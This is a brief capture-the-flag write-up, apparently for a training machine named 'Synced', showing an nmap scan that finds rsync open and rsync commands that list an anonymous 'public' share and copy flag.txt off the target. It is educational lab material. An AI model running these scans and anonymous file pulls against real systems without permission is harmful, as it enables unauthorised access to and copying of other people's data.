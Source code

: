 # Synced

- TL;DR: Since the `rsync` is misconfigured to permit anonymous login we are able to connect to the remote server with `rsync` cli and view the contents on the remote server.

## Reconnaissance
    
- Run an nmap scan:
```
nmap -p- --min-rate=1000 -sV 10.129.57.117

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:07 PDT
Nmap scan report for 10.129.57.117
Host is up (0.077s latency).
Not shown: 65534 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.24 seconds

```
<br>

- Exploitation

- From the scan we find the following ports open:
    - `873/tcp` running the `rsync` service.
- `rsync` allows to copy locally, to/from another host over any remote shell, or to/from a remote rsync daemon. 
- We run the following command to list out the directories on the remote host using the `rsync` cli:
    - `rsync --list-only 10.129.57.117`
- Next we list the files inside the directory we got from the previous command:
    - `rsync --list-only 10.129.57.117::public`
- We can then transfer the file from the `public` directory on the remote host to our local machine with the following command:
    - `rsync 10.129.57.117::public/flag.txt flag.txt`
